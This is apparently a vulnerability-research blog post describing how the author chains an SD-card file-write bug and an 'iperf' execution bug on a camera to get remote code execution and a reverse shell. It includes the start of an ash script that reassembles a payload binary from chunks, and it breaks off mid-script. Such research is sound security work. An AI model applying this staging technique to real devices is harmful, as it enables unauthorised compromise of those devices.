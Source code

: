 ```yaml
---
published: true
title: "🎥 [4] Exploiting All The Things"
toc: true
toc_sticky: true
categories:
  - VR
tags:
  - Exploitation
  - Memory Corruption
tagline: "After auditing a decent amount of the available surface, and finding several feasible vulnerabilities, it is time to exploit them for remote code execution!"
excerpt: "We should now have enough bugs to get remote code execution."
windowGradientStart: rgb(59, 59, 59)
windowGradientEnd: rgb(22, 22, 22)
windowBorder: rgb(0, 0, 0)
minimizeButton: rgb(255, 255, 255)
maximizeButton: rgb(0, 0, 255)
closeButton: rgb(255, 0, 0)
---
```


# SD Card File Write + *iperf* Binary

## Getting a Reverse Shell

From the research in the third blog of this channel, we now have both a bug that can write files to the SD card, and a bug that results in execution of a binary from the SD card. Therefore, we now have a way to get remote code execution (provided there is an SD card inserted)! However, the **iperf** file cannot be more than *0xc000*, and my reverse shell and *gdb* payloads are roughly 10x larger (thanks static linking).

At the time of the discovery of these bugs, I was still having to take the SD card out of the camera, flash the **iperf** binary I wanted to run as well as a **gdbserver-static** binary - safe to say I was getting very sick of this. So lets put that method to rest and work out how I can get the files on the device remotely and execute them. 

I remembered that **iperf** doesn't have to be a binary and that it can also be a */bin/ash* script, so all I have to do is send over small chunks of the file with the file write primitive (i.e. split the file into parts and write each part into a new file). Then once all of the parts are sent, I can simply recombine them into the full binary, make it executable, and run it from the script!

Here is the script I wrote to do this:

```
-bash
#!/bin/ash

# check if part exists
if [ ! -f /var/tmp/mmcblock0/iperf/part0 ]; then
	echo "Error: No part files found"
	exit 1
fi

# remove existing payload if already exists
rm -f /var/tmp/mmcblock0/iperf/payload

# init counter
i=0

# build the file from parts
while [ -f "/var/tmp/mmcblock0/iperf/part$i" ]; do
	cat "/var/tmp/mmcblock0/iperf/part$i" >> /var/tmp/mmcblock0/iperf/payload
```